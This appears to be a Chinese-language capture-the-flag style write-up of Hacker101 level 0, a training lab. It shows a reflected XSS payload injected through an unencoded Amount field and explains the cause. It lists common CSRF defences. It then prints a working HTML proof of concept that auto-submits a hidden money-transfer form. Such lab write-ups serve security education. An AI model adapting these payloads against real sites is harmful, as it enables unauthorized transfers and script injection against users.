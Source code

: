 [](#level-0 "level 0")level 0
-----------------------------

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1517843728333.png)

刚试了第一题的 XSS，被 chrome 拦截了。看来得换 firefox 做!

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/error%20xss%20.png)

### [](#前端源码 "前端源码")前端源码

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/hacker%20101%20coursework1%20source.png)

### [](#xss "xss")xss

```
1000"><script>alert(1)</script><img scr="none" border="0px
```

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/hacker%20101%20xss%201.png)

```
Destination account: <input type="input" ><br>
Amount: <input type="input" >
```

Destination account 对敏感的输入做了转码，而 Amount 没有，所以导致了反射型 XSS 的出现。

### [](#CSRF "CSRF")CSRF

post 型的 CSRF，需要放在 iframe 中才能绕过同源策略的限制。提交转账请求的时候没有任何校验请求的发送者是真实人发送的还是有代码触发的。一般的防御措施有：

*   验证码（缺陷不可能任何请求都添加验证码）
*   Referer（可以伪造）
*   Token 验证（广泛采用的方法）

自己编写利用脚本利用 CSRF，内容如下。参考 [https://www.hacker101.com/vulnerabilities/csrf](https://www.hacker101.com/vulnerabilities/csrf) 给的利用代码

```
<!doctype html>
<html>

<head>
<title>Test CSRF </title>
</head>

<body>
<iframe ></iframe>
<form method='POST' action='https://levels-a.hacker101.com/levels/0/' target="csrf-frame">
	<input type='hidden' name='to' value='1811'>
    <input type='hidden' name='amount' value='1234'>
	<input type='submit' value='Transfer'>
</form>

<script>document.getElementById("csrf-form").submit()</script>
</body>

</html>
```
